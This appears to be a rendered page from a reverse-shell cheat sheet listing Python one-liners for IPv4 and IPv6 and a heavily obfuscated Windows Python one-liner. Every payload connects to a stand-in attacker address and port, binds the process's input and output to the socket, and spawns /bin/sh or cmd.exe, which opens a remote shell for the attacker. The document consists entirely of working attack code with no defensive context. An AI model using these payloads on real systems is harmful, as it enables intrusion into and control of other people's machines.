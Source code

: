IPv4 (No Spaces, Shortened Further)
```python
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("$ATTACKER_IP",$ATTACKER_PORT));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

IPv6
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",$ATTACKER_PORT,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (No Spaces)
```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",$ATTACKER_PORT,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (No Spaces, Shortened)
```python
python -c 'a=__import__;c=a("socket");o=a("os").dup2;p=a("pty").spawn;s=c.socket(c.AF_INET6,c.SOCK_STREAM);s.connect(("dead:beef:2::125c",$ATTACKER_PORT,0,2));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

> Windows only

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('$ATTACKER_IP', $ATTACKER_PORT)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

